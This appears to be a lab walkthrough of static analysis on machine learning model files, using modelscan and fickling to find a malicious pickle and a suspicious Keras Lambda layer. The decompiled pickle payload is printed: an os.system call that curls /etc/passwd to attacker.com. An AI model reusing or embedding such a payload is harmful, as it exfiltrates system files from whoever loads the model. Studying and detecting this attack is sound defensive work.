





# Static Analysis Walkthrough

This document provides a step-by-step walkthrough of the static analysis performed on various machine learning models to identify supply chain vulnerabilities.

## 1. Environment Overview
The lab environment contains multiple models of varying formats, including `.pkl` (Python Pickle), `.h5` (HDF5), and `.safetensors`. The goal is to audit these models before they are deployed to production.



## 2. Analyzing Pickle Files with ModelScan
We utilized `modelscan` to perform an initial sweep of the models. Scanning `model_review_v2.pkl` immediately flagged a **CRITICAL** severity issue.

The tool detected the use of the unsafe operator `system` from the `os` module. This is a classic indicator of a malicious pickle file designed to execute OS-level commands upon being loaded via `pickle.load()`.



## 3. Deep Dive and Decompilation with Fickling
To understand exactly what the payload does, we used `fickling`, a tool specifically designed to analyze and decompile Python pickle files.

### Safety Check
Running a safety check (`fickling --check-safety`) on `model_review_v2.pkl` confirmed the presence of malicious code, explicitly warning that `from os import system` is indicative of an overtly malicious file.



### Decompilation
By running `fickling` in decompile mode, we were able to extract the exact Python code embedded in the pickle file:

```python
from os import system
_var0 = system('curl http://attacker.com/exfil -d @/etc/passwd')
result0 = _var0
```

This reveals that loading the model would execute a `curl` command to exfiltrate the contents of `/etc/passwd` to an attacker-controlled domain.



*Note: Attempting to run `fickling` on `product_recommender.safetensors` correctly results in an error, as Safetensors is a data-only format and does not use Python's pickle protocol, making it immune to this class of attack.*

## 4. Inspecting H5 Model Architectures
Vulnerabilities can also exist within the architecture of the model itself. We used a custom inspection tool (`inspect_h5_model.py`) to analyze Keras/TensorFlow `.h5` files.

- Scanning `image_classifier.h5` showed a standard 4-layer architecture (`InputLayer`, `Flatten`, `Dense`, `Dense`) with no suspicious layers detected.
- Scanning `image_classifier_v2.h5` revealed a 5-layer architecture containing a **Lambda layer** named `manipulate_output`.

Lambda layers in Keras can contain arbitrary Python code that executes during inference time. This is a severe supply chain risk, as an attacker can hide malicious logic (such as data exfiltration or model backdooring) directly inside the model graph.



## Conclusion
This walkthrough demonstrates the critical importance of scanning and verifying third-party machine learning models. Native serialization formats like Pickle should be avoided in favor of safe formats like Safetensors, and model architectures (such as `.h5` or `.pb`) must be audited for injected code execution layers.
